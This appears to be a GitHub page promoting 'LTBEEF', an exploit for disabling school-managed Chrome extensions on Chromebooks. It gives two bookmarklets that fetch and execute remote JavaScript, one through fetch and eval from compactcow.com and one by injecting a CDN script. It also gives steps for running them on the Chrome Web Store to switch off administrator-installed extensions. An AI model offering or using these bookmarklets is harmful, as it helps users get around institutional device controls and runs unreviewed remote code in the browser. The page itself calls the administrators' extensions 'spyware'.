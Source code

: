 ![image](https://user-images.githubusercontent.com/106267770/219900783-855ffa1c-5db1-41cd-9948-55076dad322a.png)


<h1>LTBEEF</h1>
<p style="text-align: center;">LTBEEF (Literally The Best Exploit Ever Found) is a exploit found by <a href="https://www.bypassi.com">bypassi</a> (Bypassi#7037) and is a great way to disable spyware that was installed on your chromebook by your SysAdmins!
The new UI was created by CompactCow#4717, Ingot ws created by Nebelung#1335<br><i> Logo created by LittleMissNyan</i></p>

<p><strong>Please note that this exploit has been patched in newer versions of chrome, and my not work. <a href="https://www.discord.gg/9w8pf35AUC">Join the TN discord for more exploits</a>!</strong></p>

<div style="text-align: center; border: solid; padding: 5px;">
<br><a style="display: block; cursor: pointer; background: #4081BF; font-size: 18px; sans-serif; color: #fff; text-align: center; width: calc(17px) rem; padding: 10px; border-radius: 30px; font-weight: 400; line-height: 1.4rem; box-shadow: 0 2px 0 lightblue; text-decoration: none; width: 8rem; margin-left: auto; margin-right: auto; font-family: Arial;" href="javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});"><strong>LTBEEF</strong></a><br>
<a style="display: block; cursor: pointer; background: #4081BF; font-size: 18px; sans-serif; color: #fff; text-align: center; width: calc(17px) rem; padding: 10px; border-radius: 30px; font-weight: 400; line-height: 1.4rem; box-shadow: 0 2px 0 lightblue; text-decoration: none; width: 8rem; margin-left: auto; margin-right: auto; font-family: Arial;" href="javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
"><strong>Ingot</strong></a>
<p>- Drag either of the above buttons to your bookmarks bar<br>
- Visit <a href="https://chrome.google.com/webstoreHIBDD">https://chrome.google.com/webstorex</a>. (This is a 404 page, and that is ok. If it is blocked, <a href="https://discord.gg/9w8pf35AUC">join the TN Discord server for support</a>!)<br>
- Click the bookmark (<strong>NOTE: This only works on the Chrome Web Store.</strong>)<br>
- Switch off the extentions you don't want to have anymore.<br> 
You're done! The extention should now be disabled.
</p>
</div><br>
